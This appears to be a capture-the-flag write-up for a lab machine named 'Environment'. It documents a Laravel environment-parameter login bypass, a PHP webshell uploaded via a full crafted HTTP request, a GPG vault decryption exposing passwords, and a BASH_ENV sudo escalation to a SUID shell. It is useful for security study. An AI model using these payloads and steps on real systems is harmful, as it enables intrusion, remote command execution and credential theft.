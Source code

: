 # Environment (10.10.11.67)

```bash
PORT     STATE SERVICE   REASON         VERSION
22/tcp   open  ssh       syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c023395ef44e280cd3a960223f19264 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3dokS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
|   256 1f3dc2195528a17759514810c44b74ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp   open  http      syn-ack ttl 63 nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.22.1
```
- no containers from TTL
# HTTP 80

- redirected to: environment.htb
- laravel backend (php nginx debian)
- no strange comment
- no subdomain in port 80
- we can send mail to: /mailing
- maybe cve-2024-52301
- we can alter text in /page:
```bash
curl 'http://environment.htb/?--env=test'

# output gets reflected in title
```
- maybe env is setting title or something like that
- --env=development doesnt seems to do anything other than setting HTML to user input
- found:
```hmtl
/login                (Status: 200) [Size: 2391]
/logout               (Status: 302) [Size: 358] [--> http://environment.htb/login]
/mailing              (Status: 405) [Size: 244854]
/robots.txt           (Status: 200) [Size: 24]
/storage              (Status: 301) [Size: 169] [--> http://environment.htb/storage/]
/up                   (Status: 200) [Size: 2126]
/upload               (Status: 405) [Size: 244852]
/vendor               (Status: 301) [Size: 169] [--> http://environment.htb/vendor/]
```
- if we force an error we can see a part of the backend with comments:
```php

        $keep_loggedin = False;
    } elseif ($remember == 'True') {
        $keep_loggedin = True;
    }
 
    if($keep_loggedin !== False) {
    // TODO: Keep user logged in if he selects "Remember Me?"
    }
 
    if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
        $request->session()->regenerate();
        $request->session()->put('user_id', 1);
        return redirect('/management/dashboard');
    }
 
    $user = User::where('email', $email)->first();
```
- we can try intercept a login with random data and add "?--env=preprod" as get param
- logged in as Hish
- we can just change profile pic, just picture (maybe file upload bypass) 
- we can upload a PHP webshell:
```txt
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 41460
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMqYGhUpNQQXI3xOX
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6ImtlUFhnaU56MGY0ZGpOcXpGSzdwaWc9PSIsInZhbHVlIjoiMU9tb3oybG1Bb29YYkptNDRaZ2JuWllwMDlBWWVUbUhoYkZGSXVnRUNEeVNSM3pZQXRVZlVaWjJLc1JxdWxoWDgrU1VvYWdUTFJ1VTV6K2N1WVRjdk5yTWVxSG9JbEJ6aFpsL052clBaWlBXOTRBYWdnc1JvSkUzQmlsUGRmRkoiLCJtYWMiOiJmYzc4NTBkZjA4YmQ4ZDdlZmE5YzIxYjU5MmU4NWU0MTc2OWM2NjNmMWQzMmI0ZmZiMzI4YjA2ZjI1OGEwMzMwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IklMVXBrb3YrVG9LZGtYNHk2WXA4Q0E9PSIsInZhbHVlIjoib2t4VnROeThJVHg2QzB2Mno0aUh1aS9wMlFHT3VaMXd3K1ZCVElBSjcyaFlIREhRS3c4Q2xncTRVUDRjYVJ3NGtTMC81aTBnQis5TEs1L25KaVRZNStSWDNIUjVvTE9ZcnozM1ArekpJQVAvWWxVd0JTd3BGRk15NGIranE3U0kiLCJtYWMiOiJjY2U4MWQ0NjI1OGQ5MmNjODZlYTI0YTkwMmZjYjgyMzA0ZjJiOTI3NzVmNWIzZTEzMDk2MmRkOGMyMjBmYzBmIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryMqYGhUpNQQXI3xOX
Content-Disposition: form-data; name="_token"

mY6TDwTbv2ENGZhBTnCu95GBj1r5QjiVJi752YFF
------WebKitFormBoundaryMqYGhUpNQQXI3xOX
Content-Disposition: form-data; name="upload"; filename="shell.php."
Content-Type: image/png

<image data>

<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```
- we can execute commands by visiting 'http://environment.htb/storage/files/shell.php?cmd=ls' 
- keep the session
- we can put revshell payload.

# www-data

- we can read some config files and found db sqlite
- users table (no luck in cracking):
```sql
$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi
$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm
$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.
```

- found gpg file and decripted:
```bash
(remote) www-data@environment:/home/hish$ cp -r .gnupg/ /tmp/.gnupg
(remote) www-data@environment:/home/hish$ export GNUPGHOME=/tmp/.gnupg/
(remote) www-data@environment:/home/hish$ gpg --list-secret-keys
gpg: WARNING: unsafe permissions on homedir '/tmp/.gnupg'
/tmp/.gnupg/pubring.kbx
-----------------------
sec   rsa2048 2025-01-11 [SC]
      F45830DFB638E66CD8B752A012F42AE5117FFD8E
uid           [ultimate] hish_ <hish@environment.htb>
ssb   rsa2048 2025-01-11 [E]

(remote) www-data@environment:/home/hish$ 
(remote) www-data@environment:/home/hish$ chmod 700 /tmp/.gnupg/
(remote) www-data@environment:/home/hish$ gpg --list-secret-keys
/tmp/.gnupg/pubring.kbx
-----------------------
sec   rsa2048 2025-01-11 [SC]
      F45830DFB638E66CD8B752A012F42AE5117FFD8E
uid           [ultimate] hish_ <hish@environment.htb>
ssb   rsa2048 2025-01-11 [E]

(remote) www-data@environment:/home/hish$ gpg --decrypt /home/hish/backup/keyvault.gpg 
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

- password reuse for environment.htb:marineSPm@ster!!

# hish

- we sudo -l:
```bash
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV
    BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

- with BASH_ENV we can execute code by creating /tmp/test.sh
```bash
#!/bin/bash

cp /bin/bash /tmp/bash
chmod +xs /tmp/bash
```

- then we can have RCE:
```bash
sudo BASH_ENV=/tmp/test.sh /usr/bin/systeminfo
```

# root

- we now have bash SUID bash in tmp

